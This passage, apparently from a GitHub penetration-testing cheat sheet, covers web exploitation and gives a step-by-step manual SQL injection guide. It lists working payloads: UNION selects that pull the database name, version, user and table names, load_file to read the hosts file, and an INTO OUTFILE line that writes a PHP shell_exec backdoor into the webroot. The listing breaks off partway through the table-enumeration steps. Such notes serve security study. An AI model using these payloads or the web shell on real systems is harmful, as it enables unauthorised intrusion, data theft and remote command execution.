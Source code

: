 # Exploitation
* [Web application](#Exploitation-Web-application)
* [Services](#Services)
* [Password Attacks](#Password-Attacks)
* [SMB and NETBIOS](#SMB-and-NETBIOS)
* [NFS Shares](#NFS-Shares)
* [All the Shells](#Shells)
* [Misc](#Misc)

## Exploitation Web application
### General
When modifying web exploits, there are several key questions we generally need to ask while approaching the code:
-	Does it initiate an HTTP or HTTPS connection?
-	Does it access a web application specific path or route?
-	Does the exploit leverage a pre-authentication vulnerability?
-	If not, how does the exploit authenticate to the web application?
-	How are the GET or POST requests crafted to trigger and exploit the vulnerability?
-	Does it rely on default application settings (such as the web path of the application) that may have been changed after installation?
-	Will oddities such as self-signed certificates disrupt the exploit?

## SQL Injection
- Use ```‘``` and ```“``` to look for possible errors
- use ```#``` and ```-- ``` for comments after the injection. (After the ``-- ``` a space is required_
  - If ```-- ``` in url the add something behind it so the space doesn't get truncated. For example ```-- \\```
- If returning multiple rows gives errors use ```LIMIT 1``` in the query
- use ```ORDER BY``` to find the amount of columns. Increment it by 1 till no output is shown.
- use ```load_file('C:/Windows/System32/drivers/etc/hosts')``` to load files instead of database data.
- use ```"<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '<PATH TO WEBROOT>/backdoor.php'``` to create a simple php backdoor.

### Manual SQL injection
- https://www.hackingarticles.in/manual-sql-injection-exploitation-step-step/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
1. Find the SQL injecton
   - Use ```‘``` and ```“``` to look for possible errors.
   - Vunerable value for example is ```artist=1```
2. Find the amount of columns
   - use ```artist=1 ORDER BY 1```. Increment it by 1 till no output or error is given. If ``artist=1 ORDER BY 4`` gives an error, the amount of columns is 3.
3. Use a union based SQL injection
   - use ```artist=1 union select 1,2,3``` (amount of columns). If no other output is given:
     - use wrong output ```artist=-1 union select 1,2,3```
     - If its a string use ```artist=-1 union select NULL,NULL,NULL```
4. Fetch the name of the database and version/current user
   - ```artist=-1 union select 1,database(),3```
   - ```-1 union select 1,version(),current_user()``` 
5. Fetch the table names inside the database
   - Retrieve all table names
     - ```artist=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()```
   - Get first table name (Limited by first because of the ```limit 0,1```)
     - ```artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1```
   - Get the second table name (Limited by second because of the ```limit 1,1```)